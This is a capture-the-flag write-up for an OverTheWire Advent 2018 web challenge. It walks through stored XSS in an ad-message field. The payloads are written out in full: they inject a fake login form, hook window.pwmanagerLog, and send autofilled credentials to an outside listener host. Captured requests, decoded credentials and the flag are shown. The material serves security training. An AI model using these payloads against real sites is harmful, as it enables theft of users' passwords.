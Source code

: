 # Santa Claus' Home Page
Okay this will be quick and dirty to at least document one possible solution to this challenge.

We are presented with Santas homepage with a list of naught and nice people. In addition there's a link to a login page (login.php) with a simple login form with username and password.

![santahome.png](images/santahome.png)


Without too much further thinking first steps involved checking if any obvious sql injections might work ... turned out to not be the case (well, didn't try harder).

At the beginning when using chrome I missed an important item on that page though. Since I had ad-blocker enabled it blocked an otherwise visable image that was hosted on a different host/subdomain.

Santas page was at:` http://santa.advent2018.overthewire.org:1219/`

the ad was coming from here:	`	<img src='http://ad.advent2018.overthewire.org:1219/static/img/adbanner.jpg' title='Not showing any subliminal message'>`

![santahome-ad.png](images/santahome-ad.png)


## adding ads
So lets head to ad.advent2018.overthewire.org:1219/ and see if there's something interesting.

Indeed on that site you get an input form where you can leave your "subliminal message" that will be shown together with the image to users of this site. Turns out the input will be added unfiltered as the value of the _title_ attribute.

Text says this year target for advertising is Santa ...  okay what kind of messages can we sent and what will happen? This looks like we need to look into some XSS vulnerability on that page.

![registermsg.png](images/registermsg.png)


So lets input something into the msg input field and see where if/where it ends up on the page.

Startgin with:
```
'<script>alert('hohoho');</script>
```

This is part of the html source of the generated page:

```
Your message will be shown when visitors to our embedded advertisements
hover over the following image.

<img src="http://ad.advent2018.overthewire.org:1219/static/img/adbanner.jpg" title="<script>alert(" hohoho');<="" script="">
```

![xssinsert.png](images/xssinsert.png)

So we can inject code into the title attribute of the image ... nice. And it seems no filtering that would prevent obvious/dangerous javascript is active.

Note, this sample worked but need to pay attention to not using single quote since that is added by the page to close the _title_ attr.

You will notice that the url for the preview site is something like: http://ad.advent2018.overthewire.org:1219/ad/Odl4TDuXLm

And the page redirects to santa the url will be eg.:  http://santa.advent2018.overthewire.org:1219/?/Odl4TDuXLm


Okay nice we can inject javascript.

From here it took me quite some time to get to a point to really understand what needs to be done, then it took forever to figure out how to do this. Unfortunately not even til end of challange :(

Anyways I figured that the server are still up and running and stumbled over that open browser tab again a few days later... f..k it will become late again ;)


Back to the description of the challange:
> Santa uses a crappy password manager,
> which leaves traces around in 'window.pwmanagerLog'.
> Can you get his login credentials? You need to login to get the flag...

So the task really seems easy ... make Santa use his password manager to login!

So I thought it would be possible to maybe just have some javascript to grab username and password from the input fields  and exfiltrate to an external server. But I was unsuccessful with that.

My tries include stuff like:
```
var u = document.getElementsByName("username")[0].value;
var p = document.getElementsByName("password")[0].value;
xhr.open('GET', "http://server.de:12345/?u2="+u+"&p="+p); xhr.send();
```

Nothing useful  ... also I wasn't sure about the _pwmangerLog thing. I tried if I can access something like: _document.querySelectorAll("pwmanagerLog")[0].innerHTML_ . But that didn't return anything either.

Maybe it's possible to get notified if something writes to _pwmangerLog_.
You can define getters and setters on javascript objects. With this it might be possible to get some trigger running once the password manager does write to the log.
After a while I came up with this snippet, it basically registers a callback if someone does _set_ the pwmanagerLog. Here I used simple document.location to make a request to remote server.

```
free beer'><script>
window.__defineSetter__("pwmanagerLog", function(val){document.location="http://server.de:12345/?data="+btoa(val); this.pwmanagerLog=val; });
</script>
```
On the remote server I had something like:
`$ socat STDIO TCP-LISTEN:12345,reuseaddr,fork`

we got a request on our server with:
```
GET /?data=RmFpbHVyZTogVVJMIGRvZXMgbm90IGVuZCBpbiAvbG9naW4ucGhw HTTP/1.1
```
base64 decode -> **Failure: URL does not end in /login.php**

Next try, maybe can just append login.php to location.href:
```

free beer'>
<script>
window.location.href = document.location+"#/login.php";
window.__defineSetter__("pwmanagerLog", function(val){document.location="http://server.de:12345/?data="+btoa(val); });
</script>
```
**Failure: No forms present!!!**

... getting better but we need a form:

```
free beer'>
<script>
window.location.href = document.location+"#/login.php";
</script>
<form class="login" method="POST" action="#/login.php">
<input type="text" name="username" placeholder="Username">
<input type="password" name="password" placeholder="Password">
<button type="submit" class="float">Login</button>
</form>
<script>
window.__defineSetter__("pwmanagerLog", function(val){document.location="http://server.de:12345/?data="+btoa(val); });
</script>
```
**GET /?data=Success! Valid login form recognized. HTTP/1.1**


Cool, but where's Santas password? So here I'm unsure if it should actually show up in the pwmanagerLog as well...

Anyway since we have a valid form lets just grab it from there ...  here the first tries again failed and there was only empty username password sent back. But due probalby because the setter callback took longer we also received the username/password request on our server before the pwmanger log message ...

So it might help to just wait a few seconds to get the form filled out and then try this again ... so my final ad message looked like this (at this point the setter probably does not need to be send again:

```
free beer'>
<script>
window.location.href = document.location+"#/login.php";
</script>
<form class="login" method="POST" action="#/login.php">
<input type="text" name="username" placeholder="Username">
<input type="password" name="password" placeholder="Password">
<button type="submit" class="float">Login</button>
</form>
<script>
window.__defineSetter__("pwmanagerLog", function(val){ var xhr=new XMLHttpRequest(); xhr.open("GET", "http://server.de:12345/?data="+btoa(val)); xhr.send(); });
setTimeout(function(){ var x2 = new XMLHttpRequest(); x2.open("GET", "http://server.de:12345/?u="+btoa(document.getElementsByName("username")[0].value)+"&p="+btoa(document.getElementsByName("password")[0].value)); x2.send(); }, 6000);
</script>
```


here's parts of the request that arrived on the server side:
```

GET /?data=U3VjY2VzcyEgVmFsaWQgbG9naW4gZm9ybSByZWNvZ25pemVkLg== HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2062.120 Safari/537.36
Referer: http://santa.advent2018.overthewire.org:1219/?LD6VakUUPR
Origin: http://santa.advent2018.overthewire.org:1219
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en,*
Host: server.de:12345


GET /?u=U2FudGFDbGF1cw==&p=UGEkc1doMGgwaDByRA== HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2062.120 Safari/537.36
Referer: http://santa.advent2018.overthewire.org:1219/?ouSaWrRaAq
Origin: http://santa.advent2018.overthewire.org:1219
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en,*
Host: server.de:12345
```

and et voila ... here we go ....

***u=SantaClaus***
***p=Pa$sWh0h0h0rD***


![access.png](images/access.png)
```
You logged in successfully!!!
Here is some candy:
	AOTW{m4ke_list__ch3ck_ch3ck!}
```
